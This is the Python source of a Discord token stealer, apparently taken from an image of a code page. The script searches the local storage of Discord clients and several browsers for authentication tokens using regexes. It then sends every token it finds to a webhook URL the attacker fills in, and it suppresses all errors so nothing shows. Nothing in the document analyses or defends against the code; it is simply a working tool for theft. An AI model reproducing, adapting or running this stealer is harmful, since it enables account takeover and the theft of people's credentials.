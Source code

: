 # new
import os import re import json  from urllib.request import Request, urlopen  # your webhook URL WEBHOOK_URL = 'WEBHOOK HERE'  # mentions you when you get a hit PING_ME = False  def find_tokens(path):     path += '\\Local Storage\\leveldb'      tokens = []      for file_name in os.listdir(path):         if not file_name.endswith('.log') and not file_name.endswith('.ldb'):             continue          for line in [x.strip() for x in open(f'{path}\\{file_name}', errors='ignore').readlines() if x.strip()]:             for regex in (r'[\w-]{24}\.[\w-]{6}\.[\w-]{27}', r'mfa\.[\w-]{84}'):                 for token in re.findall(regex, line):                     tokens.append(token)     return tokens  def main():     local = os.getenv('LOCALAPPDATA')     roaming = os.getenv('APPDATA')      paths = {         'Discord': roaming + '\\Discord',         'Discord Canary': roaming + '\\discordcanary',         'Discord PTB': roaming + '\\discordptb',         'Google Chrome': local + '\\Google\\Chrome\\User Data\\Default',         'Opera': roaming + '\\Opera Software\\Opera Stable',         'Brave': local + '\\BraveSoftware\\Brave-Browser\\User Data\\Default',         'Yandex': local + '\\Yandex\\YandexBrowser\\User Data\\Default'     }      message = '@everyone' if PING_ME else ''      for platform, path in paths.items():         if not os.path.exists(path):             continue          message += f'\n**{platform}**\n```\n'          tokens = find_tokens(path)          if len(tokens) > 0:             for token in tokens:                 message += f'{token}\n'         else:             message += 'No tokens found.\n'          message += '```'      headers = {         'Content-Type': 'application/json',         'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.11 (KHTML, like Gecko) Chrome/23.0.1271.64 Safari/537.11'     }      payload = json.dumps({'content': message})      try:         req = Request(WEBHOOK_URL, data=payload.encode(), headers=headers)         urlopen(req)     except:         pass  if __name__ == '__main__':     main()
